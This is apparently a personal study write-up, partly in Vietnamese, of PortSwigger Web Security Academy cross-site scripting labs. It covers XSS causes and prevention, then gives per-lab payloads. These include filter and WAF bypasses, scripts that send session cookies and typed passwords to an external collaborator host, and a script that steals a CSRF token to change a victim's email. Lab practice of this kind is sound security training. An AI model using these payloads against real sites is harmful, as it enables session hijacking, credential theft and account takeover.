# [XSS](https://portswigger.net/web-security/cross-site-scripting)

Causes: 

- Unsanitized user input rendered in HTML, JavaScript, or attributes.
- Lack of proper input validation or output encoding.
- Unsafe use of document.write, innerHTML, or similar DOM sinks.

Impact: 

- Theft of session cookies, credentials, or sensitive data.

- Execution of arbitrary JavaScript in the victim’s browser.

- Full control over user interactions and content rendering.

Categories: 

- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting): the **malicious script** comes from the **current HTTP request**.
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting): the **malicious script** comes from the **website's database**.
- [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting), where the vulnerability exists in client-side code rather than server-side code.

Prevention:  

- Use context-aware output encoding (e.g., HTML, JS, URL encoding).

- Sanitize and validate all user inputs.

- Use secure JavaScript APIs and avoid dangerous sinks like innerHTML.

- Implement Content Security Policy (CSP) to restrict script execution.

- Common Payloads through Labs Completion:

## - Apprentice

### [Lab 1: Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)


### [Lab 2: Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)

- Malicious scripts saved in database




### [Lab 3: DOM XSS in `document.write` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

- Inspect the search query:
- 

``

- Break the img src tag, using query search: `"><svg onload=alert(1)>`



### [Lab 4: DOM XSS in `innerHTML` sink using source `location.search`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

**Lab des**: Lỗ hổng DOM-based XSS xảy ra do ứng dụng chèn dữ liệu từ URL vào DOM thông qua thuộc tính `innerHTML` mà không kiểm soát hoặc lọc nội dung. Điều này cho phép kẻ tấn công chèn và thực thi mã JavaScript độc hại.

Steps:

- Nhập vào ô `SEARCH` thẻ HTML: 

```html

```



### [Lab 5: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

lab des: Lab này chứa một lỗ hổng DOM-based Cross-Site Scripting (XSS) trên trang **submit feedback**. Ứng dụng sử dụng hàm `$` (selector function) của thư viện jQuery để tìm phần tử anchor (thẻ `<a>`), và thay đổi thuộc tính `href` của nó bằng dữ liệu lấy từ `location.search` (tức là phần query string trên URL).

Khai thác lỗ hổng để khiến liên kết “back” thực hiện lệnh `alert(document.cookie)` – tức là hiển thị cookie hiện tại của người dùng trong một hộp thoại alert.

steps: 

- Trên trang Submit feedback, thay đổi tham số truy vấn `returnPath` thành `/` kèm theo một chuỗi chữ và số ngẫu nhiên.
  Nhấp chuột phải và chọn Inspect (Kiểm tra phần tử), quan sát thấy chuỗi ngẫu nhiên vừa nhập được chèn vào bên trong thuộc tính `href` của thẻ `<a>`.

  https://0a5800f804ae12e48049c6ab005600ad.web-security-academy.net/feedback?returnPath=n33r9

  

- Đổi ReturnPath thành: `javascript:alert(document.cookie)`


### [Lab 6: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

Lab des: lab này chứa một lỗ hổng DOM-based Cross-Site Scripting (XSS) trên trang chủ. Ứng dụng sử dụng hàm `$()` của thư viện jQuery để tự động cuộn tới một bài đăng, dựa trên tiêu đề được truyền qua thuộc tính `location.hash`.

Để hoàn thành lab, cần gửi một đoạn mã khai thác (exploit) đến victim sao cho trình duyệt của họ sẽ gọi hàm `print()`.

Steps: 

- Đoạn script có lỗi: 



`window.location.hash.slice(1)` lấy **phần sau dấu #** trong URL.

`decodeURIComponent(...)` giải mã phần đó.

Chuỗi kết quả được **chèn trực tiếp vào bộ chọn jQuery `h2:contains(...)`** mà **không kiểm tra hoặc lọc** dữ liệu đầu vào.

Vì được đưa vào jQuery selector, ta có thể **chèn HTML hoặc JavaScript** vào DOM.

- craft payload, lưu vào exploit server: 

```html
<iframe src="https://0a3500f4040778b8829eabe6006100c5.web-security-academy.net/#" onload="this.src+=''"></iframe>

------------------------------------------------------------------
<iframe src=".../#">: tạo một iframe tải trang chính với location.hash ban đầu trống (#).
onload="this.src+=''":

Khi iframe load xong, dòng này sẽ thêm đoạn # vào URL (hash).

Điều này kích hoạt sự kiện hashchange, và đoạn JavaScript ở ảnh thực thi.

Trong DOM, đoạn  được giải mã, chèn vào selector h2:contains(...), gây lỗi → trigger onerror → thực thi print().
```




### [Lab 7: Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

Lab des: Lab chứa lỗ hổng reflected XSS ở chức năng `Search`, các dấu `<>` đều bị encode HTML.

Steps: 

- Tìm kiếm một chuỗi bất kì, quan sát thấy chuỗi này được đặt trong cặp dấu `" "`



- Thay chuỗi tìm kiếm bằng: `"onmouseover="alert(1)` để escape `" "`




### [Lab 8: Stored XSS into anchor `href` attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)

Lab des: Lỗi stored XSS ở chức năng `comment`

Steps: 

- Comment vào 1 blog bất kì
- Load lại blog đó, và quan sát response trả về: phần text ở ô "Website" đượcđặt trong thẻ `href`



- Thay nội dung của mục "Website" = `javascript:alert(1)`


### [Lab 9: Reflected XSS into a JavaScript string with angle brackets HTML encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)

Lab des:  lab này chứa một lỗ hổng XSS (cross-site scripting) dạng reflected trong chức năng theo dõi truy vấn tìm kiếm, trong đó các dấu ngoặc nhọn (`<` và `>`) đã được mã hóa. Phản hồi (reflection) xảy ra bên trong một chuỗi JavaScript.

Để hoàn thành lab, hãy thực hiện một cuộc tấn công XSS bằng cách thoát ra khỏi chuỗi JavaScript đó và gọi hàm `alert`.

=> Reflected XSS bên trong một **JavaScript string context**.

**Dấu `<`, `>` đã bị encode** → không thể dùng thẻ `<script>` hay các tag HTML thông thường.

**Chuỗi phản hồi** nằm **trong đoạn mã JavaScript** như:

```js
var searchTerm = 'user_input_here';
```

Cần phải **break out khỏi chuỗi `'...'`** → dùng payload như:

```js
';alert(1);// 
```

hoặc encode:

```js
%27%3Balert(1)%3B//
```

Payload chèn vào URL (query string) → sau khi load, mã độc được thực thi ngay khi đoạn JavaScript chứa nó được chạy.

Steps: 

- nhập chuỗi bất kì vào ô `search`


```js

                        var searchTerms = 'n33r9';
                        document.write('');
                    
```

=> chuỗi được đặt trong đoạn mã js

- Thay chuổi search bằng `'-alert(1)-'` để phá vỡ `' '` js string và chèn đoạn js `alert(1)` vào




## - Practitioner

### [Lab 1: DOM XSS in `document.write` sink using source `location.search` inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)


- add query `storeId` into the URL:


- Add xss payload to the URL:


### [Lab 2: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

Lab des: Khai thác lỗ hổng DOM-based XSS do ứng dụng sử dụng AngularJS không an toàn, cho phép chèn biểu thức AngularJS vào nội dung trang.

- Ứng dụng có trang tìm kiếm dùng AngularJS.
- Dữ liệu từ URL (query string) được đưa trực tiếp vào HTML với cú pháp `{{...}}` — đặc trưng của AngularJS binding, dẫn đến việc thực thi các **biểu thức AngularJS (AngularJS expressions)** không được lọc.

Steps: 

- Nhập chuỗi bất kì vào ô tìm kiếm, quan sát kết quả:

 Quan sát thấy chuỗi vừa nhập được hiển thị **bên trong phần có khai báo `ng-app`**, tức ứng dụng đang dùng AngularJS.

- Thử chèn biểu thức khai thác XSS vào ô tìm kiếm:

  ```js
  {{$on.constructor('alert(1)')()}}
  ```

  - một cách **bypass** để gọi `eval()` gián tiếp thông qua `constructor`.
  - `$on` là một thuộc tính có sẵn trong scope của AngularJS.

- Nhấn nút tìm kiếm:
   => Nếu payload được xử lý mà không bị lọc, `alert(1)` sẽ được thực thi.
   => Popup `alert(1)` hiển thị → tấn công DOM-based XSS thành công → hoàn thành lab.


### [Lab 3: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)

Lab des: lỗ hổng reflected DOM-based XSS.
Ứng dụng reflect trực tiếp giá trị đầu vào từ `location.search` vào DOM mà không thực hiện lọc/encode dữ liệu người dùng nhập.

Steps: 

- Search 1 chuỗi bất kì:


Kết quả chuỗi search được reflected trong 1 json response: `search-results`

script xử lí json response này là `searchResults.js`, có hàm eval()


Trong quá trình test, 

Dấu ngoặc kép (`"`) đã được escape → `\"`

**Backslash (`\`) không được escape** → đây là điểm yếu có thể tận dụng.

craft payload: `\"-alert(1)}//`

Cơ chế hoạt động của payload:

1. `\"` → đóng chuỗi trước thời điểm mong muốn (escape `"`)
2. `-alert(1)` → thực thi `alert(1)` như một biểu thức độc lập (sử dụng toán tử `-`)
3. `}` → đóng object JSON sớm
4. `//` → comment phần còn lại của mã JS để tránh lỗi cú pháp



Đoạn json response thu được: 

```json
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

Khi được eval(), đoạn mã tương đương: 

```json
{
  searchTerm: "\"-alert(1)}//",
  results: []
}

```


- Gửi chuỗi search: `\"-alert(1)}//`




### [Lab 4: Stored DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored)

Lab des: Nhằm ngăn chặn XSS, trang web sử dụng hàm `replace()` của JavaScript để mã hóa dấu ngoặc nhọn (`<`, `>`). Tuy nhiên, khi đối số đầu tiên của `replace()` là một chuỗi (string), nó chỉ thay thế lần xuất hiện đầu tiên.

Ta khai thác lỗ hổng này bằng cách đơn giản là thêm một cặp dấu ngoặc nhọn ở đầu bình luận. Cặp dấu đầu tiên này sẽ bị mã hóa, nhưng các dấu tiếp theo vẫn giữ nguyên, cho phép chèn mã HTML độc hại và thực hiện tấn công XSS.

```html
<>
```




### [Lab 5: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

lab des: lỗ hổng **XSS dạng reflected** trong chức năng tìm kiếm, nhưng có sử dụng **tường lửa ứng dụng web (WAF)** để bảo vệ khỏi các kỹ thuật XSS phổ biến.

Để vượt qua bài lab, hãy thực hiện một cuộc tấn công **cross-site scripting (XSS)** có thể **vượt qua WAF** và **gọi hàm `print()`** trong trình duyệt.

steps: 

- thử một vài payload:



- Send req to intruder để test xem các tag, hàm nào có thể sử dụng hay bị chặn: 



`body` payload => a 200 response

thử intruder lại, sửa searc term thành: `<body%20=1>`



Kết quả attack:



Craft payload, paste vào body-exploit server:     

```html
<iframe src="https://0ae60085030e084e805803660015009f.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```




### [Lab 6: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

lab des: Bài lab này tương tự như Lab 5, tuy nhiên chương trình chặn tất cả các tag trừ custom ones.

```html
<script>
location = 'https://0abd00590486a7cd80bc03a000c0003b.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

phân tích: 

Phần location redirect đến URL:

```php+HTML
https://0abd00590486a7cd80bc03a000c0003b.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x

```

`%3C` = `<`, `%3E` = `>`
 `%3Dx` = `=x`, `%28` = `(`, `%29` = `)`, `%20` = dấu cách

| **<xss...>**                       | Một thẻ HTML tùy chỉnh (`<xss>`) không bị chặn bởi WAF       |
| ---------------------------------- | ------------------------------------------------------------ |
| **id=x**                           | Thiết lập ID là x để có thể nhắm tới từ #x trong URL         |
| **onfocus=alert(document.cookie)** | Sự kiện XSS chính: Gọi `alert(document.cookie)` khi phần tử được focus |
| **tabindex=1**                     | Cho phép phần tử có thể focus được bằng bàn phím (Tab key hoặc URL fragment `#x`) |
| **\#x**                            | Phần fragment trong URL dùng để tự động focus vào phần tử có ID là `x` |

****


### [Lab 7: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

lab des:  web đang chặn các thẻ HTML phổ biến nhưng lại bỏ sót một số thẻ và sự kiện trong SVG.

steps: Làm tương tự như lab 5 để tìm các tag, event bị bỏ sót:





filter event: `<svg><animatetransform%20§§=1>`



craft the payload to solve the lab: 

https://0a76008104df89de82fc38fe00aa009a.h1.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E




### [Lab 8: Reflected XSS in canonical link tag](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag)

lab des: phản hồi đầu vào của người dùng trong một thẻ **`<link rel="canonical">`**, và đã mã hóa các dấu ngoặc nhọn (`<`, `>`) để tránh HTML bị chèn trực tiếp.

=> Thực hiện một cuộc **tấn công XSS (Cross-Site Scripting)** bằng cách **chèn một thuộc tính (attribute)** vào trong thẻ HTML sao cho khi người dùng thực hiện một tổ hợp phím, hàm `alert()` được gọi.

Dữ liệu đầu vào được phản hồi trong một thuộc tính `href` như:

```
<link rel="canonical" href="https://.../?param=...">
```

Các dấu `<` và `>` đã bị mã hóa ⇒ không thể chèn trực tiếp thẻ `<script>`.

Tuy nhiên, có thể chèn thuộc tính độc hại vào giữa dấu nháy của `href`, ví dụ:

```
href="test" onmouseover="alert(1)"
```

steps: 

craft payload: https://0a98007f04d4fcd280d297bd008600f8.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1) 



Deocde url: `'accesskey='x'onclick='alert(1)`

<link rel="canonical" 
  href="https://site/?'" 
  accesskey="x" 
  onclick="alert(1)">

Khi người dùng bấm tổ hợp có liên quan đến `x`, trình duyệt sẽ thực hiện hàm alert().


### [Lab 9: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)

lab des: 

Ứng dụng web có lỗ hổng **Reflected XSS**.

Dữ liệu nhập từ người dùng (search query) được **phản chiếu vào trong một chuỗi JavaScript**:

```js
var search = 'user_input_here';
```

Các ký tự `'` (nháy đơn) và `\` (backslash) **đã được escape** → tức là `'` trở thành `\'`, và `\` thành `\\`.

steps:

- search string, và quan sát thấy giá trị được reflect trong js string:


- thử với `test'`



- craft payload to break out the script, insert another one

  `</script><script>alert(1)</script>`

  

### [Lab 10: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped)

lab des: 

Bài lab này chứa một lỗ hổng **Reflected Cross-Site Scripting (XSS)** trong chức năng theo dõi truy vấn tìm kiếm.
 Trong quá trình phản chiếu (reflect input), các ký tự:

- **Dấu ngoặc nhọn (`<` và `>`)** và **dấu ngoặc kép (`"`)** được **mã hóa HTML** (HTML encoded),
- **Dấu nháy đơn (`'`)** thì được **escape** (chuyển thành `\'`).

=> Để hoàn thành bài lab, cần thực hiện một cuộc tấn công reflected XSS bằng cách **thoát khỏi chuỗi JavaScript** và gọi hàm `alert`.

- Dữ liệu người dùng bị phản chiếu **bên trong một chuỗi JavaScript** sử dụng **nháy đơn (`'`)**.
- Server đã cố gắng ngăn XSS bằng cách mã hóa:
  - `<` → `<`, `>` → `>`, `"` → `"`
  - `'` → `\'` (escape).

steps: 

- Craft the payload: 

`\'-alert(1)//`

=> đoạn mã được reflected như sau: 

```js
<script>
  var search = '\''-alert(1)//';
</script>

```

**`\'`**
=>  Dấu nháy đơn bị escape → Kết quả: một dấu `'` thực sự được in ra trong chuỗi.

**`'-alert(1)//`**
 =>  Dấu `'` này kết thúc chuỗi ban đầu.
 =>  `-alert(1)`: Một biểu thức hợp lệ (toán tử `-` và hàm `alert(1)`) được thực thi.
 => `//` để comment phần còn lại tránh lỗi cú pháp.




### [Lab 11: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped)

lab des:

Lab này chứa một **lỗ hổng Stored XSS (Cross-Site Scripting)** trong phần chức năng bình luận (comment). Mục tiêu là:

Gửi một bình luận sao cho khi người dùng click vào tên tác giả của bình luận, hàm `alert()` được gọi.

steps:



Link website được reflect trong thẻ href và sự kiện onclick:

- craft payload: 

`http://foo?&apos;-alert(1)-&apos;`

phân tích payload: 

`'` là một **HTML entity** tương đương với ký tự `'` (dấu nháy đơn).

`'-alert(1)-'` sau khi trình duyệt **giải mã HTML** sẽ trở thành:

```
'-alert(1)-'
```



### [Lab 12: Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)

lab des: 

Bài lab này chứa lỗ hổng XSS phản chiếu (reflected XSS) trong chức năng tìm kiếm blog. Dữ liệu nhập từ người dùng bị phản chiếu bên trong một **template string** (chuỗi mẫu) trong JavaScript, với các ký tự:

- dấu nhọn (`<`, `>`)
- dấu nháy đơn (`'`)
- dấu nháy kép (`"`)

đã được **mã hóa HTML** (*HTML encoded*), và dấu **backtick (`)** thì được **escape (chuyển thành Unicode escape)**.

=> **chèn mã JavaScript gọi `alert()`** bên trong template string.

Steps: 

- Search string và quan sát kết quả được reflected trong một chuỗi string trong javascript:





- Craft payload: 

  


### [Lab 13: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

Lab des:

Bài lab này chứa một lỗ hổng Stored XSS trong chức năng bình luận blog. Một người dùng giả lập (nạn nhân) sẽ xem tất cả các bình luận sau khi chúng được đăng:

1. **Khai thác lỗ hổng XSS** để đánh cắp **cookie phiên (session cookie)** của nạn nhân.
2. **Dùng cookie đó để giả mạo (impersonate)** nạn nhân và truy cập hệ thống với vai trò của họ.

Steps: 

Craft payload: 

```

<script>
fetch('https://tro99i1hernxmlyg6h0uog7onft6hz5o.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```




=> Phần cookie đánh cắp được sẽ ở trong body của req POST gửi về collab domain.


=> Lấy được `session` của người dùng. Thay sesion và send req để giả mạo người dùng: 




### [Lab 14: Exploiting cross-site scripting to capture passwords](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)

Lab des: Tương tự như lab 13

Steps:

- craft payload: 

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://etbub332gcpio601822fq199p0vrjl7a.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```



**administrator:004fkfw2ksli05fgso84**

 


### [Lab 15: Exploiting XSS to bypass CSRF defenses](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Lab des: 

Bài lab có một lỗ hổng **Stored XSS** trong chức năng bình luận blog.
 Khi người dùng khác (nạn nhân) truy cập bài blog và xem các bình luận, mã XSS bạn chèn sẽ được thực thi.

=> Chèn mã XSS vào phần bình luận để:

- **Đánh cắp CSRF token** của nạn nhân.

- **Gửi request POST giả mạo** để đổi địa chỉ email của họ (sử dụng CSRF token hợp lệ).

  

steps: 

Tải trang `/my-account` => Trích xuất token CSRF từ thẻ input ẩn `name="csrf"` => Gửi yêu cầu POST đến `/my-account/change-email` với:

- `email=test@test.com`
- `token=...` (token lấy ở bước trên)



Craft payload: 

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Nhập payload vào phần comment blog:


